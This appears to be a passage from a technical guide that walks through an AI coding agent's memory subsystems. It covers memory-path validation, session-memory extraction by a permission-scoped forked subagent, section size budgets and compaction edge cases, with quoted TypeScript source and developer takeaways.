`validateMemoryPath` at `src/memdir/paths.ts:L109-L150` rejects paths that would be dangerous as a read-allowlist root. The security model is that `isAutoMemPath` at `src/memdir/paths.ts:L274-L278` is used by `filesystem.ts` to grant a write carve-out for the auto-memory directory. If a malicious repository could set `autoMemoryDirectory` to `~/.ssh` via project settings, it would gain silent write access to sensitive directories. This is why `getAutoMemPathSetting` at `src/memdir/paths.ts:L179-L186` explicitly excludes the projectSettings source. The function checks settings from four trusted sources in priority order: policySettings, flagSettings, localSettings, and userSettings. The `~/` expansion is supported only in settings.json paths (user convenience), not in the environment variable override (set programmatically).

### Selector failure

The `selectRelevantMemories` function at `src/memdir/findRelevantMemories.ts:L77-L141` catches all errors from the side query and returns an empty array on failure. Abort signals are checked first and return an empty array without logging. Other errors are logged at warn level via `logForDebugging` with the prefix `[memdir] selectRelevantMemories failed:`. This fail-open behavior means a broken API connection degrades gracefully to no memory recall rather than crashing the query loop. The structured output schema ensures that if parsing succeeds, the result contains a `selected_memories` array that is then filtered against the `validFilenames` set to discard hallucinated filenames.

### Missing memory directory

`ensureMemoryDirExists` at `src/memdir/memdir.ts:L129-L147` is called once per session during prompt building. It uses `getFsImplementation().mkdir` which is recursive by default and already swallows EEXIST internally, so the full parent chain (`~/.claude/projects/<slug>/memory/`) is created in one call with no try/catch needed for the happy path. Real permission errors (EACCES, EPERM, EROFS) reach the catch block and are logged at debug level, but do not block prompt building -- the model's Write tool will surface the real permission error later when it attempts to write a memory file.

### Scan resilience

`scanMemoryFiles` at `src/memdir/memoryScan.ts:L35-L77` uses `Promise.allSettled` rather than `Promise.all`, so a single unreadable or malformed file does not abort the entire scan. Only fulfilled results are included in the output. Files with invalid frontmatter or unknown type values degrade gracefully: `parseMemoryType` returns `undefined` for unknown types, and the header is still included in the scan results with `type: undefined`. The outer try/catch returns an empty array for any directory-level errors (permissions, missing directory), ensuring the scan never throws.

### Daily-log mode edge case

In KAIROS mode, the prompt is cached by `systemPromptSection` and not invalidated on date change. The model derives the current date from a `date_change` attachment appended at midnight, rather than the user-context message which is intentionally left stale to preserve the prompt cache prefix across midnight. This means the log path pattern `YYYY/MM/YYYY-MM-DD.md` in the prompt is intentionally a template -- the model fills in the correct date dynamically from its context. The daily log path is resolved by `getAutoMemDailyLogPath` at `src/memdir/paths.ts:L246-L251`, which constructs the path as `<autoMemPath>/logs/YYYY/MM/YYYY-MM-DD.md`.

### MEMORY_DRIFT_CAVEAT

The `MEMORY_DRIFT_CAVEAT` at `src/memdir/memoryTypes.ts:L201-L202` is a single bullet under the "When to access memories" section that instructs the model to treat memory as context for what was true at a given point in time, and to verify against current state before answering. If a recalled memory conflicts with current information, the model should trust what it observes now and update or remove the stale memory rather than acting on it. This is the recall-side companion to `memoryFreshnessText`: the freshness text warns at load time, while the drift caveat provides ongoing behavioral guidance.

## Where cc diverges from the published pattern

HER Pattern 3 describes tiered memory as a general concept: compact index always in context, topic files on demand, full transcripts on disk. cc's implementation diverges in several specific ways:

**Side query for relevance selection.** The pattern description does not specify how to select which topic files to load. cc uses a secondary Sonnet API call (a side query) to evaluate relevance, which adds latency and cost but produces much better selection than keyword matching alone. The side query approach uses structured output with a JSON schema, and filters the result against the valid filenames set to prevent hallucinated selections. This is a pragmatic engineering decision not anticipated by the abstract pattern.

**Closed type taxonomy.** The pattern does not constrain memory types. cc enforces a strict four-type taxonomy (user, feedback, project, reference) and explicitly excludes derivable information from memory (`src/memdir/memoryTypes.ts:L183-L195`). The ETH Zurich study cited in HER section 7.1 found that verbose context files reduce task success rates by over 20% while also increasing inference cost -- cc's exclusions are a direct response to this finding, trading expressiveness for signal-to-noise ratio. The "what NOT to save" section goes further than mere advice: it applies even when the user explicitly asks to save something, redirecting them toward the surprising or non-obvious parts worth keeping.

**Entrypoint size caps.** The pattern's "compact index always in context" is vague about how compact. cc enforces hard caps: 200 lines and 25 KB, with truncation and a warning if either cap is exceeded. This is another response to the HER section 7.1 finding: an unbounded index would become a verbose context dump, degrading rather than improving performance. The dual-cap design addresses two failure modes: too many short entries (line cap) and a few very long entries (byte cap).

**Append-only daily-log mode.** For long-lived KAIROS assistant sessions, cc replaces the standard MEMORY.md-maintenance pattern with an append-only daily-log model. Memories are recorded as timestamped bullets in date-named files (`src/memdir/paths.ts:L246-L251`), and a separate nightly `/dream` skill distills them into topic files and MEMORY.md. This recognizes that a perpetual session cannot maintain a live index without constant reorganization overhead. The daily-log prompt at `src/memdir/memdir.ts:L327-L370` explicitly instructs the model not to rewrite or reorganize the log, because it is append-only.

**Team memory composition.** The TEAMMEM feature gate adds a second memory directory (team) layered on top of the private auto-memory directory. The combined prompt includes scope tags and team/private qualifiers in examples, following the same directory-contract pattern as the individual prompt but with additional coordination semantics. The team directory is defined as a subdirectory of the auto-memory directory (`join(getAutoMemPath(), 'team')`), so creating the team dir via `ensureMemoryDirExists` creates the auto dir as a side effect. The `isTeamMemoryEnabled` function requires auto memory to be enabled first (enforced by `isAutoMemoryEnabled`), so there is no team-only branch in `loadMemoryPrompt`. The pattern description does not address multi-actor memory at all.

**Before-recommending verification.** The "Before recommending from memory" section at `src/memdir/memoryTypes.ts:L240-L256` is a cc innovation not anticipated by the pattern. It provides concrete verification steps (check file existence, grep for function names) and was validated by eval testing that showed the action-cue header "Before recommending from memory" achieved 3/3 success while the abstract header "Trusting what you recall" achieved 0/3 with identical body text. This demonstrates that prompt wording matters for safety-critical behavioral instructions.

## Developer takeaways for building a long-running agent

1. **Cap your entrypoint.** An unbounded memory index becomes a context dump that degrades model performance. Hard caps (200 lines, 25 KB) with truncation warnings keep the index signal-to-noise ratio high. The ETH Zurich study from HER section 7.1 proves this: more instruction is not always better.

2. **Use a separate model for selection.** A side query with a smaller, cheaper model (Sonnet) for relevance selection keeps the main model's context budget focused on the task. The selector needs only filenames and descriptions, not full content. Filter the results against a valid filenames set to prevent hallucinated selections.

3. **Enforce a closed type taxonomy.** Allowing arbitrary memory types leads to category sprawl and redundant storage. The four-type taxonomy (user, feedback, project, reference) with explicit exclusions for derivable information prevents the memory system from becoming a second codebase mirror.

4. **Thread mtimeMs through the pipeline.** Computing staleness at recall time (not at write time) ensures the model always sees current age information. The `memoryFreshnessText` function adds a staleness caveat for memories older than one day, directly addressing the failure mode of stale code-state memories being asserted as fact.

5. **Defend the memory path.** The auto-memory directory receives a write carve-out from filesystem permissions, so it must not be redirectable to sensitive directories. Exclude untrusted settings sources (projectSettings) from the path resolution chain, validate against path traversal attacks, and use `normalize` before prefix-checking.

6. **Degrade gracefully on scan failures.** Use `Promise.allSettled` for directory scans, return empty arrays on selector failures, and do not block prompt building when the memory directory is unreadable. A broken memory subsystem should reduce recall quality, not crash the agent.

7. **Provide concrete verification instructions.** The "before recommending from memory" section shows that actionable verification steps (check file exists, grep for function) are more effective than abstract guidance. Eval testing proved that header wording matters: action-cue headers outperform abstract headers with identical body text.
# Session Memory and Memory Extraction

## Overview

Session memory is cc's mechanism for automatically maintaining structured notes about the current conversation. Unlike memdir's persistent cross-session memory (Chapter 26), session memory operates within a single conversation, extracting key information at regular intervals via a forked subagent. The extracted notes serve as the primary input for the session-memory compaction path (Chapter 28), providing a structured alternative to the model-generated summaries used by legacy compaction.

The implementation lives in `src/services/SessionMemory/`, with three files: `sessionMemory.ts` (~495 LOC) handling the extraction lifecycle, `prompts.ts` (~325 LOC) defining the note template and update instructions, and `sessionMemoryUtils.ts` (~207 LOC) holding configuration types and shared state. This chapter examines how cc decides when to extract, how the extraction subagent is isolated from the main conversation, how the resulting notes feed into the compaction pipeline, and how session memory is promoted into persistent memdir storage.

Session memory exists because of a fundamental tension in long-running agents: the model needs a compact representation of the conversation to stay coherent, but generating that representation requires an API call that costs tokens and time. cc resolves this tension by extracting notes incrementally, updating a structured file at regular intervals rather than summarizing the entire conversation at compaction time. When compaction fires, the notes are already available, eliminating the need for a separate summarization call.

The entire feature is gated by a GrowthBook feature flag `tengu_session_memory`, checked via a cached (non-blocking) read. A second flag `tengu_sm_compact` controls whether session-memory compaction is used instead of legacy compaction. Both flags are evaluated through `getFeatureValue_CACHED_MAY_BE_STALE`, which returns immediately from cache rather than blocking on GrowthBook initialization. This design ensures that the extraction hook -- which fires on every model response -- never introduces latency waiting for a remote config service.

## Data structures and contracts

### Session memory configuration

The extraction behavior is governed by a `SessionMemoryConfig` type with three thresholds:

```typescript
// src/services/SessionMemory/sessionMemoryUtils.ts:L18-L29
export type SessionMemoryConfig = {
  /** Minimum context window tokens before initializing session memory.
   * Uses the same token counting as autocompact (input + output + cache tokens)
   * to ensure consistent behavior between the two features. */
  minimumMessageTokensToInit: number
  /** Minimum context window growth (in tokens) between session memory updates.
   * Uses the same token counting as autocompact (tokenCountWithEstimation)
   * to measure actual context growth, not cumulative API usage. */
  minimumTokensBetweenUpdate: number
  /** Number of tool calls between session memory updates */
  toolCallsBetweenUpdates: number
}
```

The defaults are 10,000 tokens for initialization, 5,000 tokens between updates, and 3 tool calls between updates, defined in `src/services/SessionMemory/sessionMemoryUtils.ts:L32-L36`. These values are lazy-initialized from GrowthBook's `tengu_sm_config` remote config, but only non-zero positive remote values override the defaults, preventing misconfigured zero values from disabling extraction.

### Session memory template

The session memory file follows a structured Markdown template with ten fixed sections. The default template is defined in `src/services/SessionMemory/prompts.ts:L11-L41`:

```typescript
// src/services/SessionMemory/prompts.ts:L11-L41
export const DEFAULT_SESSION_MEMORY_TEMPLATE = `
# Session Title
_A short and distinctive 5-10 word descriptive title for the session. Super info dense, no filler_

# Current State
_What is actively being worked on right now? Pending tasks not yet completed. Immediate next steps._

# Task specification
_What did the user ask to build? Any design decisions or other explanatory context_

# Files and Functions
_What are the important files? In short, what do they contain and why are they relevant?_

# Workflow
_What bash commands are usually run and in what order? How to interpret their output if not obvious?_

# Errors & Corrections
_Errors encountered and how they were fixed. What did the user correct? What approaches failed and should not be tried again?_

# Codebase and System Documentation
_What are the important system components? How do they work/fit together?_

# Learnings
_What has worked well? What has not? What to avoid? Do not duplicate items from other sections_

# Key results
_If the user asked a specific output such as an answer to a question, a table, or other document, repeat the exact result here_

# Worklog
_Step by step, what was attempted, done? Very terse summary for each step_
`
```

Each section has an italic description that serves as an invariant: the extraction agent is instructed never to modify, delete, or add section headers or their italic descriptions. This structural preservation ensures that downstream consumers (compaction, resume, display) can always parse the file by section headings. The ten sections cover the full lifecycle of a development session: what was asked (Task specification), what was done (Worklog), what was learned (Errors & Corrections, Learnings), and what the current state is (Current State).

### Section size budgets

The template enforces two size constraints that prevent any single extraction from consuming too much of the post-compact context budget:

```typescript
// src/services/SessionMemory/prompts.ts:L8-L9
const MAX_SECTION_LENGTH = 2000
const MAX_TOTAL_SESSION_MEMORY_TOKENS = 12000
```

The per-section cap of 2,000 tokens prevents any single section from dominating the file, while the total cap of 12,000 tokens ensures the session memory file does not consume more than a fraction of the post-compact context budget. When sections exceed these limits, the extraction agent receives explicit reminders to condense them.

## Control flow

### Extraction lifecycle

The session memory extraction follows a well-defined lifecycle, registered as a post-sampling hook that fires after every model response:

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant PS as Post-Sampling Hook
    participant SM as SessionMemory
    participant FA as Forked Agent
    participant MF as Memory File

    QL->>PS: Post-sampling hook fires
    PS->>SM: extractSessionMemory
    SM->>SM: Check gate (tengu_session_memory)
    SM->>SM: shouldExtractMemory? (tokens + tool calls)
    alt Should extract
        SM->>SM: markExtractionStarted
        SM->>MF: setupSessionMemoryFile (mkdir + read)
        SM->>SM: buildSessionMemoryUpdatePrompt
        SM->>FA: runForkedAgent (isolated context)
        FA->>MF: Edit tool (update sections)
        FA-->>SM: Extraction complete
        SM->>SM: markExtractionCompleted
        SM->>SM: updateLastSummarizedMessageIdIfSafe
    else Should not extract
        SM-->>PS: Return (no-op)
    end
```

The hook is registered during initialization in `initSessionMemory`, which is called once at session startup:

```typescript
// src/services/SessionMemory/sessionMemory.ts:L357-L375
export function initSessionMemory(): void {
  if (getIsRemoteMode()) return
  const autoCompactEnabled = isAutoCompactEnabled()
  if (process.env.USER_TYPE === 'ant') {
    logEvent('tengu_session_memory_init', {
      auto_compact_enabled: autoCompactEnabled,
    })
  }
  if (!autoCompactEnabled) {
    return
  }
  registerPostSamplingHook(extractSessionMemory)
}
```

The function is synchronous to avoid race conditions during startup. The gate check and config loading happen lazily when the hook runs, not at registration time.

### GrowthBook feature gate integration

The `tengu_session_memory` feature gate is checked on every hook invocation, not at registration time. This is intentional: if the gate is checked once at startup and the flag is later enabled via GrowthBook refresh, the session would miss the change. By checking on every invocation, cc ensures that session memory activates as soon as the flag is enabled.

The gate check uses `getFeatureValue_CACHED_MAY_BE_STALE` from `src/services/analytics/growthbook.ts`, which reads from an in-memory cache populated by a background GrowthBook polling loop. The "may be stale" naming is explicit: the value could be stale by up to the GrowthBook polling interval, but the alternative -- calling `getFeatureValue_BLOCKS_ON_INIT` -- would block the query loop on every model response, adding unacceptable latency.

```typescript
// src/services/SessionMemory/sessionMemory.ts:L80-L82
function isSessionMemoryGateEnabled(): boolean {
  return getFeatureValue_CACHED_MAY_BE_STALE('tengu_session_memory', false)
}
```

If the gate returns false, the hook logs a single `tengu_session_memory_gate_disabled` event per session (for internal analytics) and returns without further work. The single-log guard `hasLoggedGateFailure` prevents event spam on every model response.

### Extraction trigger logic

The `shouldExtractMemory` function implements a dual-threshold trigger that balances extraction frequency against cost:

```typescript
// src/services/SessionMemory/sessionMemory.ts:L134-L181
export function shouldExtractMemory(messages: Message[]): boolean {
  const currentTokenCount = tokenCountWithEstimation(messages)
  if (!isSessionMemoryInitialized()) {
    if (!hasMetInitializationThreshold(currentTokenCount)) {
      return false
    }
    markSessionMemoryInitialized()
  }

  const hasMetTokenThreshold = hasMetUpdateThreshold(currentTokenCount)
  const toolCallsSinceLastUpdate = countToolCallsSince(
    messages,
    lastMemoryMessageUuid,
  )
  const hasMetToolCallThreshold =
    toolCallsSinceLastUpdate >= getToolCallsBetweenUpdates()
  const hasToolCallsInLastTurn = hasToolCallsInLastAssistantTurn(messages)

  const shouldExtract =
    (hasMetTokenThreshold && hasMetToolCallThreshold) ||
    (hasMetTokenThreshold && !hasToolCallsInLastTurn)

  if (shouldExtract) {
    const lastMessage = messages[messages.length - 1]
    if (lastMessage?.uuid) {
      lastMemoryMessageUuid = lastMessage.uuid
    }
    return true
  }
  return false
}
```

The trigger requires the token threshold to be met in all cases. This prevents excessive extractions when the conversation is short or when the model is making many tool calls without meaningful new information. The tool-call threshold provides a secondary trigger for active sessions where the model is making many calls, while the "no tool calls in last turn" condition ensures extraction happens at natural conversation breaks -- when the model has just produced a text response rather than a tool call, which typically means it has completed a unit of work.

The token threshold measures context window growth since the last extraction using `hasMetUpdateThreshold`, which subtracts the previously recorded token count from the current count. This is the same metric used by autocompact and the initialization threshold, ensuring consistent behavior across the two features.

### Forked agent isolation

The extraction runs in a forked subagent with tightly scoped permissions:

```typescript
// src/services/SessionMemory/sessionMemory.ts:L318-L325
await runForkedAgent({
  promptMessages: [createUserMessage({ content: userPrompt })],
  cacheSafeParams: createCacheSafeParams(context),
  canUseTool: createMemoryFileCanUseTool(memoryPath),
  querySource: 'session_memory',
  forkLabel: 'session_memory',
  overrides: { readFileState: setupContext.readFileState },
})
```

The `createMemoryFileCanUseTool` function restricts the forked agent to a single capability: editing the session memory file with the Edit tool:

```typescript
// src/services/SessionMemory/sessionMemory.ts:L460-L482
export function createMemoryFileCanUseTool(memoryPath: string): CanUseToolFn {
  return async (tool: Tool, input: unknown) => {
    if (
      tool.name === FILE_EDIT_TOOL_NAME &&
      typeof input === 'object' &&
      input !== null &&
      'file_path' in input
    ) {
      const filePath = input.file_path
      if (typeof filePath === 'string' && filePath === memoryPath) {
        return { behavior: 'allow' as const, updatedInput: input }
      }
    }
    return {
      behavior: 'deny' as const,
      message: `only ${FILE_EDIT_TOOL_NAME} on ${memoryPath} is allowed`,
      decisionReason: {
        type: 'other' as const,
        reason: `only ${FILE_EDIT_TOOL_NAME} on ${memoryPath} is allowed`,
      },
    }
  }
}
```

This is a direct implementation of HER Pattern 7 (Context-Isolated Subagents): the extraction agent operates in a separate context window with read-only access to the conversation and write access limited to a single file. If the extraction agent were compromised (e.g., by a prompt injection in a tool result), the damage would be confined to the session memory file. The `querySource: 'session_memory'` parameter prevents the extraction from triggering recursive compaction or other session-memory extractions.

### Update prompt construction

The extraction prompt instructs the model to update each section of the template based on the conversation so far. The prompt is loaded from a custom file at `~/.claude/session-memory/config/prompt.md` if it exists, otherwise from the default `getDefaultUpdatePrompt()`. The `{{currentNotes}}` variable is substituted with the current content of the memory file, enabling incremental updates rather than full rewrites. The `{{notesPath}}` variable tells the extraction agent which file to edit, scoping its write access.

The default prompt contains explicit rules about structural preservation: never modify section headers (lines starting with `#`), never modify or delete italic description lines, and only update the content that appears below the italic descriptions within each existing section. It also instructs the agent to write detailed, info-dense content with specifics like file paths, function names, error messages, and exact commands.

### Section size enforcement

When sections grow too large, `generateSectionReminders` appends explicit size warnings to the extraction prompt:

```typescript
// src/services/SessionMemory/prompts.ts:L164-L196
function generateSectionReminders(
  sectionSizes: Record<string, number>,
  totalTokens: number,
): string {
  const overBudget = totalTokens > MAX_TOTAL_SESSION_MEMORY_TOKENS
  const oversizedSections = Object.entries(sectionSizes)
    .filter(([_, tokens]) => tokens > MAX_SECTION_LENGTH)
    .sort(([, a], [, b]) => b - a)
    .map(
      ([section, tokens]) =>
        `- "${section}" is ~${tokens} tokens (limit: ${MAX_SECTION_LENGTH})`,
    )
  if (oversizedSections.length === 0 && !overBudget) {
    return ''
  }
  const parts: string[] = []
  if (overBudget) {
    parts.push(
      `\n\nCRITICAL: The session memory file is currently ~${totalTokens} tokens, which exceeds the maximum of ${MAX_TOTAL_SESSION_MEMORY_TOKENS} tokens. You MUST condense the file to fit within this budget. Aggressively shorten oversized sections by removing less important details, merging related items, and summarizing older entries. Prioritize keeping "Current State" and "Errors & Corrections" accurate and detailed.`,
    )
  }
  if (oversizedSections.length > 0) {
    parts.push(
      `\n\n${overBudget ? 'Oversized sections to condense' : 'IMPORTANT: The following sections exceed the per-section limit and MUST be condensed'}:\n${oversizedSections.join('\n')}`,
    )
  }
  return parts.join('')
}
```

This is a form of observation masking (HER Section 8.1): by surfacing size violations to the extraction agent, cc ensures the agent condenses sections proactively rather than waiting for a post-hoc truncation that loses information indiscriminately. The `analyzeSectionSizes` function parses the current notes and estimates token counts per section using `roughTokenCountEstimation`, providing the data for these reminders.

### Truncation for compact injection

When session memory is injected into compact messages, oversized sections are truncated to prevent them from consuming the entire post-compact token budget:

```typescript
// src/services/SessionMemory/prompts.ts:L256-L296
export function truncateSessionMemoryForCompact(content: string): {
  truncatedContent: string
  wasTruncated: boolean
} {
  const lines = content.split('\n')
  const maxCharsPerSection = MAX_SECTION_LENGTH * 4
  const outputLines: string[] = []
  let currentSectionLines: string[] = []
  let currentSectionHeader = ''
  let wasTruncated = false

  for (const line of lines) {
    if (line.startsWith('# ')) {
      const result = flushSessionSection(
        currentSectionHeader,
        currentSectionLines,
        maxCharsPerSection,
      )
      outputLines.push(...result.lines)
      wasTruncated = wasTruncated || result.wasTruncated
      currentSectionHeader = line
      currentSectionLines = []
    } else {
      currentSectionLines.push(line)
    }
  }
  const result = flushSessionSection(
    currentSectionHeader,
    currentSectionLines,
    maxCharsPerSection,
  )
  outputLines.push(...result.lines)
  wasTruncated = wasTruncated || result.wasTruncated
  return { truncatedContent: outputLines.join('\n'), wasTruncated }
}
```

The truncation operates at the section level via `flushSessionSection`, cutting at a line boundary near the character limit and appending a `[... section truncated for length ...]` marker. This preserves the section header and description while condensing the body, a more precise approach than whole-file truncation.

### Memory promotion: session memory to persistent memdir

Session memory is inherently ephemeral -- it captures the current conversation and is discarded when the session ends. However, the compaction pipeline creates an opportunity to promote session memory content into persistent memdir storage, ensuring that valuable information survives across sessions.

The promotion pipeline works through the session-memory compaction path. When `trySessionMemoryCompaction` in `src/services/compact/sessionMemoryCompact.ts` fires, it reads the current session memory content via `getSessionMemoryContent()`, truncates oversized sections via `truncateSessionMemoryForCompact`, and creates a compaction result that replaces the summarized portion of the conversation with the session memory summary. The summary message is created with `isCompactSummary: true` and `isVisibleInTranscriptOnly: true`, marking it as a synthetic message that provides context but should not be confused with actual user or model messages.

```mermaid
flowchart TD
    A[Extraction agent writes session memory] --> B[analyzeSectionSizes]
    B --> C{Any section over 2000 tokens?}
    C -->|yes| D[generateSectionReminders]
    D --> E[Agent condenses on next extraction]
    C -->|no| F{Total over 12000 tokens?}
    F -->|yes| G[CRITICAL reminder appended]
    G --> E
    F -->|no| H[File is within budget]
    H --> I[Autocompact fires]
    I --> J[waitForSessionMemoryExtraction]
    J --> K[truncateSessionMemoryForCompact]
    K --> L[Per-section char limit = 2000 * 4]
    L --> M[Cut at line boundary near limit]
    M --> N[Append truncation marker]
    N --> O[Session memory injected into compact context]
    O --> P[Dream consolidation promotes to memdir]
```

The dream consolidation system (Chapter 24) can further promote key session memory content into persistent memory files. When the dream task runs during idle time, it reviews the session memory file along with other context, extracting information that should persist beyond the current session into new memdir entries. This creates a two-tier promotion path: session memory captures ephemeral state, and dream consolidation selects the most valuable portions for long-term retention.

### Custom template and prompt support

Users can customize the template and update prompt by placing files at `~/.claude/session-memory/config/template.md` and `~/.claude/session-memory/config/prompt.md`:

```typescript
// src/services/SessionMemory/prompts.ts:L86-L104
export async function loadSessionMemoryTemplate(): Promise<string> {
  const templatePath = join(
    getClaudeConfigHomeDir(),
    'session-memory',
    'config',
    'template.md',
  )
  try {
    return await readFile(templatePath, { encoding: 'utf-8' })
  } catch (e: unknown) {
    const code = getErrnoCode(e)
    if (code === 'ENOENT') {
      return DEFAULT_SESSION_MEMORY_TEMPLATE
    }
    logError(toError(e))
    return DEFAULT_SESSION_MEMORY_TEMPLATE
  }
}
```

This enables teams to add project-specific sections (e.g., "# Deployment Checklist", "# Compliance Requirements") or modify the extraction instructions to emphasize certain types of information. The variable substitution syntax (`{{currentNotes}}`, `{{notesPath}}`) supports dynamic content injection in custom prompts. The `substituteVariables` function performs single-pass replacement to avoid both `$` backreference corruption and double-substitution when user content happens to contain `{{varName}}` matching a later variable.

## Edge cases and failure modes

### Self-evaluation bias

HER Failure Mode 6.3 (Self-Evaluation Bias) warns that agents rate their own work too generously. The session memory extraction is vulnerable to this bias: the extraction agent might overstate progress or understate errors. cc mitigates this by running the extraction in a forked context with no access to the model's internal reasoning, forcing the extraction to rely solely on the observable conversation (tool calls, results, user messages). The "Errors & Corrections" section is structured to capture both positive and negative feedback, with explicit instructions to record corrections AND confirmations, preventing the drift toward over-caution that occurs when only failures are recorded.

### Resumed sessions without lastSummarizedMessageId

When a session is resumed from a previous conversation, the `lastSummarizedMessageId` may not be available. The `trySessionMemoryCompaction` function handles this by setting `lastSummarizedIndex` to the last message in the array:

```typescript
// src/services/compact/sessionMemoryCompact.ts:L561-L565
    } else {
      // Resumed session case: session memory has content but we don't know the boundary
      // Set lastSummarizedIndex to last message so startIndex becomes messages.length (no messages kept initially)
      lastSummarizedIndex = messages.length - 1
      logEvent('tengu_sm_compact_resumed_session', {})
    }
```

This is a conservative fallback: rather than risk discarding unsummarized messages, the compaction preserves everything and uses the session memory as an overlay. The tradeoff is that resumed sessions may not benefit from the full token savings of session-memory compaction.

### Extraction race conditions

The extraction runs as a post-sampling hook, which means it fires after every model response. To prevent concurrent extractions, the `sequential` wrapper is applied:

```typescript
// src/services/SessionMemory/sessionMemory.ts:L272-L274
const extractSessionMemory = sequential(async function (
  context: REPLHookContext,
): Promise<void> {
```

The `sequential` function ensures that only one extraction runs at a time, serializing overlapping hook invocations. Without this, two concurrent extractions could produce conflicting edits to the session memory file, resulting in a corrupted file that does not accurately reflect the conversation state.

When autocompact fires, it calls `waitForSessionMemoryExtraction` from `src/services/SessionMemory/sessionMemoryUtils.ts:L89-L105`, which polls the extraction-in-progress flag at 1-second intervals with a 15-second timeout and a 60-second staleness threshold. If the extraction has been running for more than 60 seconds, the wait returns immediately (the extraction is considered stale). If the 15-second timeout expires, the wait also returns, ensuring that compaction never blocks indefinitely.

### Template matching for empty detection

The `isSessionMemoryEmpty` function detects whether the session memory file contains any actual content or just the template:

```typescript
// src/services/SessionMemory/prompts.ts:L220-L224
export async function isSessionMemoryEmpty(content: string): Promise<boolean> {
  const template = await loadSessionMemoryTemplate()
  return content.trim() === template.trim()
}
```

This comparison is straightforward but has a subtle edge case: if the user customizes the template after the first extraction, the comparison will fail because the file content will not match the new template. cc handles this by loading the template at comparison time rather than at initialization time, so the comparison always uses the current template. When the session memory is empty, the compaction pipeline falls back to legacy compaction, preventing a compaction that would produce an empty summary.

### Manual extraction for the /summary command

The `manuallyExtractSessionMemory` function bypasses the threshold checks for the `/summary` command, allowing users to trigger extraction at any time. Unlike the automatic path, which uses `createCacheSafeParams` to share the parent's prompt cache, the manual path constructs fresh system prompt, user context, and system context via `getSystemPrompt`, `getUserContext`, and `getSystemContext`. This is necessary because the manual path is not triggered from the query loop and does not have access to the current cache state.

### Session memory file setup

Before extraction can run, the session memory file must be initialized. The `setupSessionMemoryFile` function handles this initialization by creating the session memory directory (`~/.claude/session-memory/`) with mode `0o700` and the memory file with mode `0o600`, then loading the template. The file creation uses the `wx` flag (O_CREAT | O_EXCL) to atomically create the file only if it does not exist, preventing a race between the existence check and the write.

After creating or reading the file, the function calls `FileReadTool.call` to populate the `readFileState` with the file content. This state is passed to the forked agent via `overrides: { readFileState: setupContext.readFileState }`, enabling the agent to use the Edit tool without first reading the file (since it already has the content in its state). The `readFileState.delete(memoryPath)` call before reading ensures that the FileReadTool's dedup does not return a stale `file_unchanged` stub.

### API invariant preservation during compaction

The `adjustIndexToPreserveAPIInvariants` function in `src/services/compact/sessionMemoryCompact.ts:L232-L314` handles a subtle but critical edge case: when the compaction boundary splits streaming messages that share the same `message.id` but have different `uuid` values. Streaming yields separate messages per content block (thinking, tool_use, etc.) with the same `message.id` but different `uuid` values. If the compaction boundary lands between these messages, the `normalizeMessagesForAPI` function will fail to merge them correctly, resulting in orphaned `tool_result` blocks or lost thinking blocks that cause API errors.

The function solves this in two steps: first, it looks backward from the boundary to find any `tool_use` blocks whose matching `tool_result` blocks would be orphaned; second, it looks backward for any assistant messages that share a `message.id` with kept messages but contain thinking blocks. Both adjustments expand the kept range to ensure API structural invariants are preserved.

## Where cc diverges from the published pattern

### Structured template vs. free-form notes

Many published agent architectures recommend free-form notes that the agent maintains as it works. cc uses a fixed-section template with invariant headers and descriptions. This reduces the model's degrees of freedom and ensures that each section has a clear purpose, but it also means that information that does not fit neatly into one of the ten sections may be lost or misplaced. The custom template support partially addresses this by allowing teams to add sections, but the core tradeoff remains: structure constrains expression.

### Forked extraction vs. inline summarization

cc runs the extraction in a forked subagent rather than as part of the main conversation loop. This is a direct implementation of HER Pattern 7 (Context-Isolated Subagents): the extraction agent has its own context window and cannot contaminate the main conversation with extraction artifacts. The tradeoff is cost: each extraction requires a separate API call. cc mitigates this by running extraction only when the dual thresholds (tokens + tool calls) are met, and by using prompt cache sharing with the main conversation via `createCacheSafeParams`.

### Cached (non-blocking) gate checks vs. blocking flag evaluation

cc uses `getFeatureValue_CACHED_MAY_BE_STALE` for the session memory gate, accepting potentially stale flag values to avoid blocking the query loop. Most GrowthBook integrations use blocking evaluation to ensure fresh values, but this is impractical for a hook that fires on every model response. The tradeoff is that session memory may activate a few polling intervals late after the flag is enabled, but this is acceptable for a feature that provides incremental value rather than safety guarantees.

### Section-level size enforcement vs. whole-file truncation

cc enforces size limits at the section level (2,000 tokens per section) rather than truncating the entire file when it exceeds a budget. This is more precise than whole-file truncation because it preserves sections that are within budget and condenses only the sections that are oversized. The per-section approach aligns with HER's recommendation for per-tool-type summarization (Section 8.1 technique 6): different sections have different compression strategies based on their content type.

## Developer takeaways for building a long-running agent

1. **Run extraction in an isolated context.** The forked-agent pattern prevents extraction artifacts from polluting the main conversation and limits the blast radius of a compromised extraction agent. The `createMemoryFileCanUseTool` function demonstrates how to scope a subagent's permissions to a single file.

2. **Use dual-threshold triggers to balance frequency and relevance.** The combination of token count and tool-call count ensures extraction happens frequently enough to capture progress but not so frequently that it wastes API calls. The token threshold is always required, preventing excessive extractions.

3. **Enforce structural invariants in the template.** The fixed-section template with invariant headers prevents the model from reorganizing or removing sections. This makes the notes parseable by downstream consumers without needing to interpret free-form text.

4. **Surface size violations to the extraction agent.** The `generateSectionReminders` function tells the extraction agent which sections are oversized, enabling targeted condensation rather than indiscriminate truncation. This is more effective than post-hoc truncation because the agent can choose which details to preserve.

5. **Make extraction sequential to prevent race conditions.** The `sequential` wrapper ensures that only one extraction runs at a time, and `waitForSessionMemoryExtraction` ensures that compaction waits for any in-progress extraction to complete.

6. **Use cached (non-blocking) feature gates for hot-path checks.** When a gate is checked on every model response, blocking on GrowthBook initialization would add unacceptable latency. Accepting potentially stale values is a reasonable tradeoff for non-safety-critical features.

7. **Support custom templates for project-specific needs.** The file-based template override allows teams to add sections without modifying the codebase. This is essential for projects that need domain-specific notes.
# Compaction Hierarchy: Five Stages of Context Rescue

## Overview

Long-running agent sessions inevitably exceed their context window. A coding session that starts with a simple bug fix can grow to thousands of turns as the agent reads files, runs tests, edits code, and responds to feedback. Without intervention, the conversation would hit the model's token limit and crash. cc addresses this with a five-stage compaction hierarchy that progressively reduces context size, from the lightest touch (trimming stale tool results without model involvement) to the heaviest intervention (summarizing the entire conversation via a forked API call).

